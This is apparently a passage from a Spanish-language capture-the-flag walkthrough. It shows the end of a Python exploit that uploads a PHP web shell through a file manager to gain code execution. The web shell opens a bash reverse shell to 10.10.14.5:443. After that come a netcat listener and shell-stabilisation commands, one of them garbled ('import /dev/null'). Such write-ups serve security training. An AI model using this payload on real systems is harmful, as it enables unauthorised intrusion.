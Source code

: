 ```python
Content-Disposition: form-data; name="p"

tiny/uploads
------WebKitFormBoundaryc2w6QHu2wMC6QJV3
Content-Disposition: form-data; name="fullpath"

shell.php
------WebKitFormBoundaryc2w6QHu2wMC6QJV3
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php 
        system('bash -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"'); 
?>

------WebKitFormBoundaryc2w6QHu2wMC6QJV3--
"""

    requests.post(urlUpload, headers=headers, data=data)
    requests.get(url + 'uploads/shell.php')
    
if __name__ == '__main__':
    login()
    rce()
```

Podemos utilizar el ***script*** anterior o bien utilizar la webshell que habíamos subido para obtener una reverse shell. En ambos casos, nos tendremos que poner en escucha con netcat:

```bash
nc -nlvp 443
```

Recibiremos una shell como ***www-data***.

Una vez recibida la shell, deberemos hacerle un **tratamiento** para que nos permita poder hacer *Ctrl+C*, borrado de los comandos, movernos con las flechas… Los comandos que ingresaremos serán:

```bash
import /dev/null -c bash
*Ctrl+Z*
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

También deberemos ajustar el número de filas y de columnas de esta _shell_. Con el comando ***stty size*** podemos consultar nuestras filas y columnas y con el comando ***stty rows \<rows\> cols \<cols\>*** podemos ajustar estos campos.

Ahora deberemos escalar privilegios para convertirnos en el usuario ***player***.

#  Consiguiendo shell el usuario player 
